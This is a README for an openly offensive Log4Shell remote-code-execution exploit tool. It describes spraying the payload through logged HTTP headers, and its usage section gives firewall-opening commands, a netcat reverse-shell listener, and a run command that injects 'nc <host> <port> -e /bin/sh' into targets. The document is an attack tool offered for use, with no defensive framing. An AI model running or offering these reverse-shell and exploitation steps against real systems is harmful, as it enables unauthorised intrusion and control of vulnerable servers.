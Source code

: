 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
open firewall ports
```ufw enable
ufw allow <netcat port>/tcp
ufw allow 1389/tcp
ufw allow <http_port>/tcp
ufw reload
```

reverse shell receiver
```
nc -lvp <port>
```

exploit execution
```shell
python main.py -i lhost -u http://target:targetport -c "nc <domain|ip> <port> -e /bin/sh" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
